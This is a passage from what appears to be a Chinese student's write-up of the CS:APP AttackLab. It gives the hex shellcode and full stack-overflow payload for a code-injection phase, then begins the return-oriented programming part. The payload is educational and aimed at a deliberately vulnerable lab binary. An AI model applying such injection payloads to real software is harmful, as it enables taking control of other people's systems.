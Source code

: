 得到的字符串为 68 fa 18 40 00 bf a8 dc 61 55 c3 

最终构造的格式如下图：

![未命名文件 (1)](实验3：AttackLab.assets/未命名文件 (1).png)

rsp栈帧执行的操作为

```
68 fa 18 40 00 bf a8 dc 
61 55 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00   
35 39 62 39 39 37 66 61 
```

其中1-5行为分配的地址，6行为返回值地址，7行为cookie地址。

最后验证结果通过

![image-20211030120524060](实验3：AttackLab.assets/image-20211030120524060.png)

## Part II: Return-Oriented Programming

> • It uses randomization so that the stack positions differ from one run to another. This makes it impos-sible to determine where your injected code will be located.
> • It marks the section of memory holding the stack as nonexecutable, so even if you could set the program counter to the start of your injected code, the program would fail with a segmentation fault.

* 随机化，栈帧位置每次运行不同，不可能确定注入位置
* 限制了可执行代码区域

具体解释可以看下面的截图（截图来自于hit的csapp第三章ppt）

![img](实验3：AttackLab.assets/v2-f9a6c721d439ad26bfbedd91e29d976e_b-16355787033573.jpg)
